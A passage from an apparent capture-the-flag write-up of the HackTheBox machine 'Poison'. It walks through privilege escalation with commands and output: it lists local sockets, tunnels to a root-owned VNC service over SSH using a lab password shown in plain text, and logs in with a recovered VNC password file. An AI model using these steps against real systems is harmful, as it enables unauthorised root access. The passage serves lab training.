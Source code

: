 ================================( Processes, Cron, Services, Timers & Sockets )================================
[+] Cleaned processes
--- snip ---
root    529  0.0  0.9  23620  8868 v0- I    13:43    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xautho
root    540  0.0  0.7  67220  7064 v0- I    13:43    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop

Linpeas fails to provide us with a list of open sockets / ports, grab that ourselves.
charix@Poison:/tmp % sockstat -4 -l
  USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS
  www      httpd      735   4  tcp4   *:80                  *:*
  root     sendmail   672   3  tcp4   127.0.0.1:25          *:*
  www      httpd      671   4  tcp4   *:80                  *:*
  www      httpd      670   4  tcp4   *:80                  *:*
  www      httpd      669   4  tcp4   *:80                  *:*
  www      httpd      668   4  tcp4   *:80                  *:*
  www      httpd      667   4  tcp4   *:80                  *:*
  root     httpd      655   4  tcp4   *:80                  *:*
  root     sshd       620   4  tcp4   *:22                  *:*
  root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
  root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
  root     syslogd    390   7  udp4   *:514                 *:*


3. We are unable to SSH from the victim back to us (-R), so lets to a local (-L) port tunnel.

[root:/git/htb/poison]# ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84                                                             (master✱)
Password for charix@Poison: Charix!2#4%6&8(0

The tunnel is setup and we can verify it using lsof:
[root:/opt]# sudo lsof -i -P -n | grep LISTEN
  --- snip ---
  ssh       29038 root    4u  IPv6 592189      0t0  TCP [::1]:5901 (LISTEN)
  ssh       29038 root    5u  IPv4 592190      0t0  TCP 127.0.0.1:5901 (LISTEN

We know that the service is vnc, so connect to it using vncviewer:
[root:/opt]# vncviewer 127.0.0.1:5901
  Connected to RFB server, using protocol version 3.8
  Enabling TightVNC protocol extensions
  Performing standard VNC authentication
  Password: Charix!2#4%6&8(0
  Authentication failed

Looking further into vncviewer the flag '-passwd' can be used for password files, maybe the unknown file is a pass file?
[root:/opt]# vncviewer --help
  --- snip ---
  -passwd <PASSWD-FILENAME> (standard VNC authentication)


[root:/git/htb/poison]# vncviewer 127.0.0.1:5901 -passwd secret                                                                   (master✱)
  Connected to RFB server, using protocol version 3.8
  Enabling TightVNC protocol extensions
  Performing standard VNC authentication
  Authentication successful
  Desktop name "root's X desktop (Poison:1)"
  VNC server default format:
    32 bits per pixel.
    Least significant byte first in each pixel.
    True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
  Using default colormap which is TrueColor.  Pixel format:
    32 bits per pixel.
    Least significant byte first in each pixel.
    True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0